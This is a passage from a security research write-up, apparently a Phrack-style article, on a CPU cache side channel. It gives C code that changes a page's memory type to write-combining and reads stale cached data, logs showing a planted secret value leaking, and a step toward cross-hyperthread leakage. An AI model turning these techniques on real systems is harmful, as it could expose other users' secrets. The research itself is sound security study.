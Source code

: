 </PRE>
```c
// Populate the cache with cache lines from a WB page by performing normal loads
memset(buf_targetsrc, 0x33);
// Load a secret in a buffer by performing normal loads
memset(buf_secret, secret_val);
// Change the memory type of the page to WC
entry.pte = ptedit_apply_mt(entry.pte, wc_mt);
// Read from memory corresponding to an entry in the cache.
targetsrc_val = *(volatile uint32_t*) buf_targetsrc;
```
<PRE>

We could see some sparkle, but it wasn't clear where and why:

</PRE>
```text
(...)
result targetsrc val: 0x0, access time: 1440
result targetsrc val: 0x0, access time: 495
result targetsrc val: 0x0, access time: 540
result targetsrc val: 0x33333333, access time: 675 // the stale value
result targetsrc val: 0x0, access time: 540
result targetsrc val: 0x42, access time: 495 // the secret value
result targetsrc val: 0x0, access time: 495
result targetsrc val: 0x0, access time: 1485
result targetsrc val: 0x0, access time: 540
(...)
```
<PRE>

So, we went for more statistical testing. Running the code 100 times in a 
loop of 512 iterations, we would get from 1 to 2 digits hits on the secret. 
This isn't enough though. If we can see data that isn't supposed to be 
there, then we want to see it all the time, right? 

--[ 2.4 - I See Sparkles EVERYWHERE

From there, we started to check different contexts, trying to figure out 
from where the leakage was coming from. We decided to test if we could leak 
cross threads in hyperthreading system.

Check the pairs:

</PRE>
```console
$ cat /sys/devices/system/cpu/cpu*/topology/thread_siblings_list
0,8
2,10
3,11
4,12
5,13
6,14
7,15
1,9
```
<PRE>
